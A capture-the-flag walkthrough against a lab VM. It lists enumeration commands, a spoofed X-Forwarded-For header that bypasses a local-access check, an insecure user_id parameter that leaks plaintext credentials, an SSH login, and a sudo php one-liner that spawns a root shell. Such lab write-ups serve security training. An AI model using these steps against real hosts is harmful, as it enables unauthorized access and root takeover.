 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)


---

## Enumeration: 
- VM IP: `sudo netdiscover`
	* `VMWare 192.168.1.13`
- VM info: `nmap -A 192.168.1.13`
- web server info: `dirb -w http://192.168.1.13`
	* http://192.168.1.13/index.php
	* http://192.168.1.13/misc/process.php
	* http://192.168.1.13/config/config.php
	* http://192.168.1.13/heyhoo.txt

## Penetration:
- index.php req local access
- header capture/info with **Fiddler**
- custom header with browser extension(`X-Forwarded-For: 0.0.0.0`)
- local access granted 
- register: http://192.168.1.13/index.php?page=register
- login: http://192.168.1.13/index.php?page=login
- profile : http://192.168.1.13/index.php?page=profile&user_id=13
- `form action="#"` -> POSTS data on index.php?page=profile
- user_id allows to get all the name,uname,pass values 
- uname:pass list  
	1.eweuhtandingan:skuyatuh  
	2.aingmaung:qwerty!!!  
	3.sundatea:indONEsia  
	4.sedihaingmah:cedihhihihi  
   	**5.alice:4lic3**  <-------------------------------     
	6.abdikasepak:dorrrrr  
- `ssh 192.168.1.13 -l alice`
- login in and capture **first flag**
			
## Privilege Escelation:
- `sudo -l`:
	* alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- root access granted
- `cd /root && cat flag*` and capture the **second flag**





